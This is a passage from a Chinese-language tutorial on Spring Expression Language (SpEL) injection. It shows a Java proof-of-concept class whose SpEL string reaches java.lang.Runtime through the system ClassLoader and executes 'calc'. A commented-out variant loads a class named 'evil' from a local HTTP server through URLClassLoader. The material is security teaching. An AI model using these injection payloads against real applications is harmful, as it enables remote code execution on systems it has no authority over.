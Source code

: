 然后起个 http 服务，最后运行就可以加载恶意类了。  
![image.png](assets/1698895942-0456aa594e86181144dd7ac5565ef3ee.png)

## AppClassloader

这种其实大差不差。获取 ClassLoader 去加载本地的类。

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
